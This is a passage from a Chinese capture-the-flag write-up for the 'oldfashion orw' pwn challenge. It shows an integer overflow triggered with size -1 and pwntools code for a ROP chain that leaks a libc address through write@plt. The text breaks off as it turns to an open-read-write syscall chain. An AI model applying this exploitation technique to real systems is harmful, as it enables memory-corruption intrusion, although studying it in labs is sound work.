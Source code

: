 [![](assets/1698893341-1533c8977985a2018ede8e3acc82002d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121808-aaca1eca-73b6-1.png)

存在整形溢出

```plain
p.sendlineafter('size?\n','-1')
```

获取 libc 基址：

```plain
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
```

[![](assets/1698893341-3b5fed30e4b88776c0c1264dc0cc2f45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121823-b4339608-73b6-1.png)

我们获取 libc 基址后，便可得到系统调用 syscall，下面就可以根据调用号开始构造函数

[linux 系统调用号表](https://blog.csdn.net/qq_29343201/article/details/52209588)

###### OGW:

由于我是对 NSSCTF 收录的 18 版本的 oldfashion orw 进行复现，所以这道题和原版的 20 版本的 oldfashion orw 有些差距，同时还缺少了一个提示性文件：

stat.sh:
